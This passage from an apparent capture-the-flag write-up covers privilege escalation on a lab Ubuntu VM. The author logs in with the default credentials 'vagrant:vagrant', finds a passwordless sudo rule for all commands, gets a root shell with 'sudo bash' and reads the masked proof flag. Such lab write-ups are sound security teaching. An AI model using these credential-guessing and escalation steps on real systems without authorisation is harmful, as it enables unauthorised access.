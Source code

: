 ## privilege escalation
There are 3 different users available on the system.
```bash
www-data@ubuntu-xenial:/home$ ls
ls
james  ubuntu  vagrant
```

Checking for weak passwords reveals that the credentials of user `vagrant` are `vagrant:vagrant`
```bash
www-data@ubuntu-xenial:/home$ su vagrant
su vagrant
Password: vagrant

vagrant@ubuntu-xenial:/home$ whoami
whoami
vagrant
```

Checking if we have super user permissions reveals that we are allowed to execute every binary/command with super user permissions without specifying a password.
```bash
vagrant@ubuntu-xenial:/home$ sudo -l
sudo -l
Matching Defaults entries for vagrant on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vagrant may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: ALL
```

As it is that easy we are using `bash` to escalate to `root`
```bash
vagrant@ubuntu-xenial:/home$ sudo bash
sudo bash
root@ubuntu-xenial:/home# whoami
whoami
root
```

> Root! Root!
{: .prompt-info }

## get second flag
```bash
root@ubuntu-xenial:/home# cd /root
cd /root
root@ubuntu-xenial:/root# ls
ls
proof.txt
root@ubuntu-xenial:/root# cat proof.txt
cat proof.txt
6******************************e
```

Pwned! <@:-) 
